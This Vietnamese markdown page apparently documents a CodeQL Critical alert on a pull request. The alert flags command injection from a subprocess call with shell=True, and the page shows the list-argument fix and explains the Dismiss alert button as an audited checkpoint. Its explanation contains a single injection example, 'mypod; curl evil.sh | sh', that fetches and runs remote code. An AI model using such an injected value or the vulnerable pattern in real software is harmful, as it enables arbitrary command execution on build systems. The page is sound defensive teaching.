

# 29 — CodeQL bắt command injection (Critical)



**Chụp:** 27/07/2026 11:06 · PR #443 → Files changed
**Chứng minh:** cổng SAST bắt lỗ hổng mức cao nhất, đúng loại nguy hiểm với pipeline

## Trong ảnh có gì

Bình luận vào `aiops/detector/incident_lookup.py:69`, nhãn **Critical** — mức cao nhất,
tiêu đề *"CodeQL / Uncontrolled command line"*.

Dòng bị bắt:

```python
cmd = "kubectl logs " + pod + " --tail 200"
return subprocess.check_output(cmd, shell=True).decode()
```

Bản vá đề xuất:

```python
cmd = ["kubectl", "logs", pod, "--tail", "200"]
return subprocess.check_output(cmd).decode()
```

Cuối ảnh có nút **Dismiss alert** — chi tiết đáng để ý, nói ở phần dưới.

## Vì sao đây là Critical chứ không phải High

`shell=True` cộng với chuỗi ghép nghĩa là shell diễn giải cả nội dung `pod`. Gửi
`?pod=mypod; curl evil.sh | sh` là chạy được lệnh tuỳ ý dưới quyền của tiến trình này.

Điểm khiến nó nghiêm trọng hơn SQL injection: SQL injection giới hạn trong phạm vi cơ sở dữ
liệu, còn command injection cho chạy **bất cứ gì** dưới quyền tiến trình. Mà tiến trình này
nằm trong `aiops/`, được `app-build` build, Trivy quét, cosign ký và deploy lên cluster
thật. Trên runner CI thì đó là quyền chạm vào token ký cosign và quyền apply Terraform.

Bản vá bỏ hẳn shell đi. Truyền danh sách thì `pod` luôn là **một** tham số, dù bên trong có
dấu chấm phẩy hay dấu sổ đứng — không còn ai đứng ra diễn giải chúng thành lệnh nữa.

Ví như đọc địa chỉ cho tài xế qua điện thoại, người ta xen câu *"à mà rẽ vào ngân hàng rút
giúp tôi ít tiền"* thì tài xế làm luôn vì tất cả đều là lời nói. Còn đưa tờ giấy ghi sẵn ô
"điểm đến" thì thứ viết trong ô đó mãi mãi chỉ là điểm đến.

## Về nút Dismiss alert

Nút này tồn tại là đúng — có những alert thật sự là báo động giả, và cần đường xử lý chúng.
Nhưng nó cũng là cách hợp lệ để mở cổng: dismiss xong thì `CodeQL` chuyển xanh và PR merge
được.

Nên cổng này không phải bức tường không thể qua, mà là **chốt kiểm soát có ghi sổ**. Muốn
qua thì phải có người bấm dismiss, và GitHub lưu lại ai bấm, lúc nào, lý do gì. Đó mới là
thứ hữu ích: không phải chặn tuyệt đối, mà là không cho ai lặng lẽ đi qua.

Cùng kỷ luật với `.trivyignore`, `.checkov.yaml` và `query-filters` trong
`codeql-config.yml` — bộ ba file skip của repo, mỗi entry đều phải có lý do và ngày review.

Đọc tiếp: [30](30-pr443-codeql-required-merge-xam.md)
